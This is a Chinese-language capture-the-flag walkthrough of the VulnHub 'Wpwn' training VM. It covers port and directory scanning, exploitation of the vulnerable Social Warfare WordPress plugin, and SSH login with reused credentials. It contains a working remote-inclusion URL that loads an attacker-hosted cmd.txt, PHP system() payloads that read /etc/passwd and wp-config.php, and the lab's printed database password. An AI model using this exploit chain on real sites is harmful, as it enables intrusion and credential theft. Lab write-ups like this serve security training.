 # Wpwn

> https://download.vulnhub.com/wpwn/wpwnvm.zip

靶场IP：`192.168.32.135`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.135
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:35 EDT
Nmap scan report for 192.168.2.135
Host is up (0.00071s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:DB:E7:B5 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.96 seconds

```

浏览器访问80端口

![image-20220906213634428](../../.gitbook/assets/image-20220906213634428.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.2.135/ -w /usr/share/wordlists/dirb/common.txt -t 30                                                                                                                                                  1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.135/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/06 09:37:19 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 134]
/robots.txt           (Status: 200) [Size: 57] 
/server-status        (Status: 403) [Size: 278]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.2.135/wordpress/]
                                                                                     
===============================================================
2022/09/06 09:37:24 Finished
===============================================================

```

访问：`/wordpress/`

![image-20220906214449737](../../.gitbook/assets/image-20220906214449737.png)

枚举wordpress，发现`social-warfare`插件有漏洞

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://192.168.2.135/wordpress/
```

![image-20220906214414210](../../.gitbook/assets/image-20220906214414210.png)



```
┌──(root💀kali)-[/tmp]
└─# echo "<pre>system('cat /etc/passwd')</pre>" >  cmd.txt
```

直接执行命令

```
http://192.168.2.135/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.2.129/cmd.txt
```

![image-20220906214704204](../../.gitbook/assets/image-20220906214704204.png)

```
echo "<pre>system('cat /var/www/html/wordpress/wp-config.php')</pre>
```

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

![image-20220906214831159](../../.gitbook/assets/image-20220906214831159.png)

查看用户密码文件

![image-20220906214949758](../../.gitbook/assets/image-20220906214949758.png)

使用`takis/R3&]vzhHmMn9,:-5`进行ssh登录。

![image-20220906215128857](../../.gitbook/assets/image-20220906215128857.png)

直接su提权

![image-20220906215234299](../../.gitbook/assets/image-20220906215234299.png)

![image-20230208161537677](../../.gitbook/assets/image-20230208161537677.png)

